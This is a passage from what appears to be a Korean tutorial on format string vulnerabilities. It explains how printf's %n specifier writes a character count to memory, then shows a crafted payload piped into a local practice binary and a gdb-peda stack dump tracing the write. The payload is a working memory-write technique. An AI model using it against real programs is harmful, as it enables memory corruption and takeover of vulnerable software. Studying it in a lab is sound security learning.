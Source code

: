 예를 들어, `printf("Shh0ya%n",&num)` 이라는 구문이 있다면, `printf` 호출 직전 스택의 ESP 에는 입력 값 주소(`"Shh0ya%n"`) 이 저장된다. 그리고 두번째 인자인 `&num` 은 ESP+4 위치에 저장된다.

`printf` 는 내부적으로 한 문자씩 가져와 일반 문자인지, 포맷스트링인지 확인한다. `%` 문자라면 바로 다음 문자를 가져와 `d,x,X,s,c,n,p` 등등 인지 확인하고 해당하는 로직을 실행하게 된다. `%n`의 경우 내부적으로 `_get_print_count_ouput` 과 같은 로직이 호출되고 이 때 길이를 확인하고 이 값을 위의 ESP+4 의 주소 안에 복사한다.

자 그럼 다음 내용을 보고 동작을 분석해본다.

```
root@shh0ya-Linux:~/pwn/fsb# (python -c 'print "AA\xf6\xd5\xff\xff%43x%n"'; cat) | ./exam
AA󗀿                                   414133dc
ffffd5f6
Complete
```

보면 `Complete`가 출력됐다. 디버거를 이용해 정확한 동작을 분석한다. `printf` 호출 직전에 브레이크 포인트를 설치하고 위와 같은 입력 값으로 실행하고 스택을 본다.

```
gdb-peda$ r < <(python -c 'print "AA\xd6\xd5\xff\xff%43x%n"')
Starting program: /root/pwn/fsb/exam < <(python -c 'print "AA\xd6\xd5\xff\xff%43x%n"')

[----------------------------------registers-----------------------------------]
EAX: 0xffffd5c2 --> 0xd5d64141 
EBX: 0x0 
ECX: 0x0 
EDX: 0xf7fb487c --> 0x0 
ESI: 0xf7fb3000 --> 0x1b1db0 
EDI: 0xf7fb3000 --> 0x1b1db0 
EBP: 0xffffd5d8 --> 0x0 
ESP: 0xffffd5bc --> 0xffffd5c2 --> 0xd5d64141 
EIP: 0x80484ef (<main+36>:	call   0x8048380 <printf@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80484e8 <main+29>:	add    esp,0xc
   0x80484eb <main+32>:	lea    eax,[ebp-0x16]
   0x80484ee <main+35>:	push   eax
=> 0x80484ef <main+36>:	call   0x8048380 <printf@plt>
   0x80484f4 <main+41>:	add    esp,0x4
   0x80484f7 <main+44>:	lea    eax,[ebp-0x2]
   0x80484fa <main+47>:	push   eax
   0x80484fb <main+48>:	push   0x80485c0
Guessed arguments:
arg[0]: 0xffffd5c2 --> 0xd5d64141 
[------------------------------------stack-------------------------------------]
0000| 0xffffd5bc --> 0xffffd5c2 --> 0xd5d64141 
0004| 0xffffd5c0 --> 0x414133dc 
0008| 0xffffd5c4 --> 0xffffd5d6 --> 0x30 ('0')
0012| 0xffffd5c8 ("%43x%n\n")
0016| 0xffffd5cc --> 0xa6e25 ('%n\n')
0020| 0xffffd5d0 --> 0xf7fb3000 --> 0x1b1db0 
0024| 0xffffd5d4 --> 0x303000 ('')
0028| 0xffffd5d8 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080484ef in main ()

```
